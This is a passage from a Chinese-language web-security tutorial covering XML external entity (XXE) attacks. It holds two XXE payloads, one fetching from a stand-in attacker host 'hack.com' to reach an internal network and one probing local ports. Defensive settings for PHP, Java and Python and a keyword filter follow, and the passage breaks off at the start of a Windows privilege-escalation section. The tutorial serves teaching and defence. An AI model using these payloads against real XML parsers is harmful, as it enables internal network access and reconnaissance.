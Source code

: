#### 攻击内网
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://hack.com/playload" >]>
<root>
<name>&xxe;</name>
</root>
#其中playload 有对内网的访问
```
#### 内网端口探测
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```
### xxe防御
#### 方案一、使用开发语言提供的禁用外部实体的方法
```
PHP：
libxml_disable_entity_loader(true);

JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python：
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
#### 方案二、过滤用户提交的XML数据
##### 关键词：<!DOCTYPE和<!ENTITY，或者，SYSTEM和PUBLIC。
## 十 提权
### 一windows提权
#### 相关知识
ticmd 系统提权   的相关知识：：

内置用户：
Administrator，系统管理员账户，拥有完全控制权限。
Guest，来宾账户，仅具有最基本权限，默认被禁用。


内置用户组：
Administrators，管理员组。
Users，新建用户默认所属的组。
Guest，权限最低。
